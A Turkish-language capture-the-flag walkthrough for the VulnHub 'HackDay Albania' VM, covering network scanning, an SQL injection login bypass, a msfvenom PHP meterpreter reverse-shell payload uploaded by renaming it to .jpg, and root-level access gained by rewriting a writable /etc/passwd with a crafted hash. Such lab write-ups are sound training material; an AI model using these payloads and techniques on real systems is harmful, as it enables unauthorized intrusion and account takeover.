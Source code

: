 #   Hackaday Albania CTF

Selam,
HackDay Albania CTF 2016’da kullanılan sanal makinanın tam çözümünü yaptık, sizlerle paylaşmak istedik. Keyifli okumalar.

**HackDay Albania CTF**

VM hakkında ayrıntılı bilgi alabileceğiniz ve indirme bağlantısını bulabileceğiniz link aşağıdadır

[VulnHub](https://www.vulnhub.com/entry/hackday-albania,167/)

#   VM çözümü

İlk önce kendi sistemimizin nasıl bir ağ yapılandırması ile çalıştığını öğrenmek için

    ifconfig

komutu ile kendi IP adresimizi ve Subnet Mask’ımızı öğrenip(192.168.1.0/24 ağında bulunuyorum)

    nmap 192.168.1.1/24

komutunu kullanarak içinde bulunduğumuz ağda bulunan diğer cihazları bulmak için nmap aracını **192.168.1.1/24** ağına yönelik normal tarama yapması için çalıştırıyoruz. Tarama sonucunda, **192.168.1.10** IP adresine sahip hedefimizin üzerinde; 22 TCP portunda SSH, 8008 TCP portunda bir HTTP servisinin açık olduğunu keşfediyoruz.

![screenshot](screenshots/01.png)

Fakat normal taramada (ki bu top 1000 porttur) açık olmayan, ama servis verir durumda olan bir port olup olmadığını öğrenmek için hedef sisteme standart tarama yerine birde ayrıca full port taraması yapıyoruz, böylelikle top 1000 port arasında olmayan ama servis verir yani açık durumda olan portları da tespit edebilriz.
Örnek olarak, kendi sistemimizde bulunan SSH servisini normalde hizmet vermesi gereken 22 numaralı porttan 1996 portuna taşırsak normal tarama ve full port tarama sonucu aşağıdaki gibi olacaktır.

![screenshot](screenshots/02.png)


    nmap -n -p 1-65535 -sV 192.168.1.10 --open
    
ile tüm açık tcp portlarını listeliyoruz ancak bunlara ek açık bir port göremiyoruz
bunun üzerine HTTP portuna yönelip browserımızda

    192.168.1.10:8080
    
adresine gitmeyi deniyoruz. 8008 portunu belirtmek zorundayız çünkü HTTP 
varsayılan portu 80 dir ve browser 80 portunu deneyeceği için hata alıcaktır.
Siteye girdiğimizde bizi Elliot Alderson yani nam-ı diğer Mr.Robot
karşılıyor ve bilmediğimiz bir dilde yazılmış birkaç satır translateden
çevirince çok anlamlı çıkmasa da arnavutça yazılmış **nereye gideceğini
bildiğini** ifade ediyor. Sayfa kodlarında da birşey bulamayınca, 
hemen adresi **owasp zap* aracında tarattığımızda birşey gözümüze çarpıyor:

    robots.txt
    

![screenshot](screenshots/03.png)


içerisindeki adresleri denediğimizde de hep aynı sayfa ve kaynak
kodlarında da ekstra birşey bulamıyoruz.


![screenshot](screenshots/04.png)


Fakat ortalara doğru

    /unisxcudkqjydw 

adresini girdiğimizde farklı bir sayfa ve bir ipucuyla karşılaşıyoruz


![screenshot](screenshots/05.png)


tabi hemen ipucunu değerlendirip sonuna ekliyoruz. Yani adresi

    192.168.1.10:8008/unisxcudkqjydw/vulnbank/

haline getiriyoruz ve gelen sayfadaki client linkini denediğimizde de bizi çok 
güvenli olduğunu iddia eden bir banka karşılıyor. Tabiki aklımıza hemen sql
geliyor ve tepki ölçmek adına kullanıcı ve parola kısmına birer tırnak(')
koyuyoruz. Oltaya takılan balık ilk başta bizi çok heyecanlandırıyor.


![screenshot](screenshots/06.png)


MySQL servisi kullanıldığını ve istismar et beni dercesine bakan bir mesajı
görüyoruz. Hemen büyük bir özgüvenle 

    ' or '1' = '1

olarak bilinen genel yöntemi deniyoruz ancak çok ta sazan olmadığını
kanıtlarcasına bizi başta ürküten bir hata alıyoruz:


    Invalid Credentials...


tabi pes etmeyip bikaç genel geçer yöntem daha deniyoruz ancak o bize biz
ona bakıyoruz. Sonra yorum satırı haline getirsek nolur diye düşünüp
username ve password'e:

    ' or 'aucc' = 'aucc';#

yazarak (sadece username'e yazıp password'ü gereksiz doldursanızda olur)
mysql kodunu doğru döndürüp kalan sorguyu yorum haline getiriyoruz
ve 25000 euroluk hesabıyla bizi charles karşılıyor.


![screenshot](screenshots/07.png)


fakat gözümüz hala doymamış olacakki sistem hedefinden şaşmayıp sağda duran "Contact Support"
kısmında file selecti görünce kalbimiz çarpıyor. Tabi durmayıp

    msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f raw > aucc.php

ile **192.168.1.5** IP li kali makinemizin 4444 portuna yönlendiren
bir php payloadı üretip onuda raw formatında "aucc.php" adında
bir dosyaya yazıyoruz ve metasploitimizi de resimdeki gibi hazırlayıp


![screenshot](screenshots/08.png)


bizi renklerle kandıracağını düşünenlere de mesajımızı vererek
"aucc.php" yi yüklemeye çalışıyoruz 


![screenshot](screenshots/09.png)


fakat hacklendikten sonra artık sadece jpg ve türevi kabul ediyoruz diyerek bize kapıyı gösteriyor.


![screenshot](screenshots/10.png)


Bizde al sana jpg diyip "aucc.php" nin adını "aucc.jpg" olarak olarak değiştirip
yepyeni bir sticker göndermesiyle yüklüyoruz. 


![screenshot](screenshots/11.png)


Ve dosyayı yedirmeyi başardık. Fakat msfconsole hala bekliyor yani bizim bu dosyayı açtırmamız lazım.
bıraktığımız Ticketın üzerine tıklayıp, sistem "aucc.jpg" dosyasını açmaya çalışınca
msfconsole da bir hareketlilik baş gösteriyor ve meterpreter konsolundayız. Bana göre sahte kısmı burada
başlıyor çünkü normal sistemlerde karşımıza kolay kolay çıkmayacak olan olayla burada karşılaştım.

    /etc/group

dosyasından sudo yetkisine sahip kullanıcılara baktığımda 'taviso'yu görüp ona erişmeyi denesemde çözüm
bu olmadığından başaramadım. Fakat dediğim gibi karşımıza kolay kolay çıkmicak şekilde

    /etc/passwd 

nin izinlerine baktığımızda write iznini farkediyoruz. Tabi "meterpreter" dan bunu editlemek biraz
sancılı olacağı için

    download /etc/passwd

ile kaliye hedef makinenin passwd dosyasını indiriyoruz. eski linux sistemler şifreleri(hashlenmiş parolaları) de bu dosyada tutuyordu
fakat daha sonra istismar edilebilirliği daha doğrusu "bruteforce" u engellemek adına şifreleri **/etc/shadow** a
taşıyarak eskiden şifrelerin olduğu yere bir "x" bıraktılar ve bu yolla parola kontrolü için shadow a yönlendirme yaptılar.
shadow un okuma iznide yalnız rootta olduğu için bence "şimdilik yeterince güvenli" bir işe imza attılar. Bu bilgiyi kullanarak

    openssl passwd -1 -salt tuzlu aucc

ile passwd formatında md5(-1) tipinde "tuzlu" ile saltlanmış yani bruteforce u zorlaştırmak adına önlem alınmış ve parola olarak 'aucc'nin 
hashini üretiyoruz ve çıktı olarak :

    $1$tuzlu$LewyIW83SjgyBrkI29SWh0

alıp bunu herhangi bir editörde "taviso"nun yanındaki 'x' in yerine yapıştırıyoruz(x'i siliyoruz) ve kaydedip çıkıyoruz. 


![screenshot](screenshots/12.png)


Rootun parolasını da değiştirebilik ancak ben sudo yetkili kullanıcıyı tercih ettim. Düzenlediğimiz bu dosyayı tekrar meterpreterdan

    upload passwd /etc/passwd

ile hedef sistemdeki passwd nin yerine yüklüyoruz. Artık SSH ile bağlanıp doğru düzgün bir shellde devam edebiliriz.

    ssh taviso@192.168.1.10

ile bağlantımızı kurup parola olarak 

    aucc

yazıyoruz ve içerdeyiz. Son olarak flagi **/root** dizininde bulup

![screenshot](screenshots/13.png)

    cat /root/flag.txt

ile flagi bastırıp flagı gördüğümüze göre sanal makinemizde işimizi bitiriyoruz.
FLAG:

    **Urime,**

    **Tani nis raportin!**

    **(arnavutça "tebrikler, şimdi rapor başlıyor!" yazıyor ve flagi veriyor)**

#   d5ed38fdbf28bc4e58be142cf5a17cf5



